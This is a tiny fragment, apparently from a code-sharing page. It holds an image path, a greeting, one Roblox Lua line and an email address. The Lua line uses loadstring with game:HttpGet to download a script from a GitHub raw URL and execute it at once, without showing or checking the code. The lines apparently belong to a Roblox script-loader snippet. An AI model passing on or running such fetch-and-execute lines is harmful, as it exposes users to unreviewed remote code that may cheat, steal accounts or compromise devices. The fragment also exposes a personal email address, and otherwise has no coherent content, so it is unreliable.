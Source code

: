 Hi 
loadstring(game:HttpGet("https://raw.githubusercontent.com/Buibiendzai/description/main/test"))()
locac2041@gmail.com
